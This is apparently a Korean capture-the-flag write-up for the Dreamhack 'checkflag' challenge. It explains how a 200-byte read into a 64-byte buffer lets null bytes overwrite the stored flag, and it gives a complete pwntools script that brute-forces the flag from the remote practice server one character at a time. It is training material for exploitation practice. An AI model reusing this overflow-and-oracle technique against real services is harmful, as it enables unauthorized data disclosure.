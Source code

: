 dreamhack checkflag
======================

<img width="517" height="403" alt="image" src="https://github.com/user-attachments/assets/5bc42a72-6777-417c-b5a4-d13ec9001002" />

<img width="527" height="388" alt="image" src="https://github.com/user-attachments/assets/fb310698-74e8-465b-98f2-44b8969a5cda" />

* "flag" 파일에 저장된 문자열과 사용자가 입력한 문자열이 정확히 일치하는지 확인한다. 
* 만약 사용자 입력의 길이가 파일의 플래그 길이보다 짧거나 내용이 일치하지 않으면 "Failed!"를 출력하고 종료된다. 
* 올바른 플래그를 입력하면 "Correct!"를 출력한다.



프로그램 입력에서 발생할 수 있는 **버퍼 오버플로우** 를 이용하는 문제이다.

 * `read(0, v10, 0xC8uLL);`  를 보면 `v10` 버퍼의 크기는 `char v10[64];`로 선언되어 **64바이트**이다.
 * `read` 함수는 `0xC8uLL` (십진수로 200) 바이트를 `v10`에 읽어오도록 지시하고 있다.
 * 사용자가 **64바이트보다 많은 데이터를 표준 입력(stdin)으로 주면 `read` 함수는 `v10` 버퍼의 할당된 공간(64바이트)을 초과하여 스택의 인접한 메모리 영역에 데이터를 덮어쓰게** 된다.


<img width="497" height="151" alt="image" src="https://github.com/user-attachments/assets/8be3e26c-8f69-4bba-a0b1-d3eaab6be36e" />

* 여기서 입력값과 정답을 비교할때 strcmp()는 첫 번째 널문자('\0') 전까지 비교한다.
* 그런데 만약 **input에 널 문자('\0')를 65개 연속으로 입력하면** 메모리 오버플로우로 인해
  flag 버퍼의 첫 글자도 \0으로 덮인다.
* 즉 input도 "", flag도 "" → strcmp는 이 둘을 **같다** 고 인식하게 된다.


그러면 브루트포싱을 사용해 플래그를 알아낼 수 있는데

* flag 일부를 덮어쓰기 위해 입력 길이를 flag까지 넘치게 만들고
* 문자열 비교 결과가 "Correct!"인지 확인해서
* 한 글자씩 줄여가며 이 과정을 반복하며 플래그를 거꾸로 한 글자씩 알아낼 수 있다.


## 익스플로잇 코드


```python
from pwn import *

flag_len = 0
for length in range(0x3f, 0, -1):
    test_payload = b'A' * length
    payload = test_payload + b'\x00' * (0x40 - len(test_payload)) + test_payload

    p = remote('host3.dreamhack.games', 14991)
    p.sendafter(b'flag?', payload)

    if ord('F') in p.recvuntil(b'!\n'):
        flag_len = length + 1
        p.close()
        break
    p.close()

found_flag = b''
for i in range(flag_len - 4):
    for c in range(0x20, 0x7f):
        test_payload = b'A' * (flag_len - 2 - i) + chr(c).encode() + found_flag + b'}'
        payload = test_payload + b'\x00' * (0x40 - len(test_payload)) + b'A' * (flag_len - 2 - i)

        p = remote('host3.dreamhack.games', 14991)
        p.sendafter(b'flag?', payload)

        if ord('C') in p.recvuntil(b'!\n'):
            found_flag = chr(c).encode() + found_flag
            p.close()
            break
        p.close()

print('DH{' + found_flag.decode() + '}')
```

플래그의 길이 추정 → 플래그 내용 브루트포싱의 두 단계로 나누어 작성했다.

### flag_len 찾기 (플래그의 길이 추정)

```python
for length in range(0x3f, 0, -1):  # 0x3f = 63부터 1까지 감소
```

길이 63부터 1까지 시도하며 맞는 길이를 찾는다.

```python
test_payload = b'A' * length
payload = test_payload + b'\x00' * (0x40 - len(test_payload)) + test_payload
```

payload 구조:
  * 입력부: A * length
  * 패딩: null (\x00)로 64바이트 채움
  * 검증부: A * length 재사용
    → 총 64바이트 입력 후 동일한 패턴을 뒤에 붙임.


```python
p.sendafter(b'flag?', payload)
if ord('F') in p.recvuntil(b'!\n'):  # 결과에 'F' 포함 시 길이 맞음
```

* 응답에 'F' ("FLAG" 또는 "FLAG format correct") 문자가 포함되면 해당 길이가 유효
* 이 때의 길이 + 1이 실제 flag 길이로 판단됨



### flag 브루트포싱

* flag는 DH{...} 형식이니까 나머지 flag_len - 4 문자만 브루트포싱하면 된다.
* 뒤에서부터 채우기 (found_flag는 뒤에서부터 쌓임) + 비교 시 "입력 + '}'" 구조로 끝이 맞는지 확인


#### 루프

```python
for i in range(flag_len - 4):  # 남은 flag 문자 수만큼 반복
    for c in range(0x20, 0x7f):  # 아스키 문자 범위 
```

```python
test_payload = b'A' * (flag_len - 2 - i) + chr(c).encode() + found_flag + b'}'
```

* 앞쪽: A로 남은 길이 채움 (공격 벡터 삽입 위치 조정)
* 중간: 현재 시도 중인 문자
* 뒤쪽: 지금까지 알아낸 flag 일부 + '}'

```python
payload = test_payload + b'\x00' * (0x40 - len(test_payload)) + b'A' * (flag_len - 2 - i)
```

전체 payload는 앞에서 만든 입력을 64바이트로 정렬하고, 뒤쪽에 비교용 A 채운다.

```python
if ord('C') in p.recvuntil(b'!\n'):  # 응답에 'C' 포함 시 해당 문자가 정답
    found_flag = chr(c).encode() + found_flag  # 찾은 문자를 앞에 붙임
```

* 'C'가 들어오면 맞는 문자로 간주하고 found_flag에 추가.
* 이렇게 하여 뒤에서부터 한 글자씩 완성됨.

-----------------------------------

<img width="432" height="57" alt="image" src="https://github.com/user-attachments/assets/ae355a17-496b-4c0b-838a-e2843ca2ded6" />



플래그를 이렇게 구할 수 있다.
